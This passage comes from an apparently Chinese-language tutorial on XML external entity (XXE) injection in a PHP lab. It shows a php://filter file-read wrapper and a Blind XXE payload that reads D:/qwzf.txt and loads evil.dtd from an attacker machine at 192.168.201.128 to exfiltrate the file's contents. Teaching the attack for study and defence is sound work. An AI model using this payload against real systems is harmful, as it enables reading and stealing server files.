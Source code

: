 [![](assets/1698897471-3d47a5a8ebaebe984044cb773cfb735f.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20191202151724-c9bd6404-14d3-1.jpg)  
当然，也可以使用`php://filter`协议读取qwzf.txt文件内容(也可以读取其他类型的文件，如：php文件)

```plain
php://filter/read=convert.base64-encode/resource=
```

1.  无回显

修改源码，禁掉输出代码和报错信息，改成无回显。  
[![](assets/1698897471-54fdf325bf20d983ac4eb6f637075d6f.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20191202151758-dde2ceb0-14d3-1.jpg)  
遇到无回显，可以通过`Blind XXE`方法加上外带数据通道来提取数据，先使用`php://filter`协议获取目标文件的内容，然后将内容以`http`请求发送到攻击服务器来读取数据。虽无法直接查看文件内容，但我们可以使用易受攻击的服务器作为代理，在外部网络上执行扫描以及代码。即，当无回显情况时，可以将数据发送到远程服务器(攻击服务器)。

这里我使用的攻击机ip为：`192.168.201.128`

构造payload

```plain
<?xml version="1.0"?>
<!DOCTYPE test[
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=D:/qwzf.txt">
<!ENTITY % dtd SYSTEM "http://192.168.201.128/evil.dtd">
%dtd;
%send;
]>
```
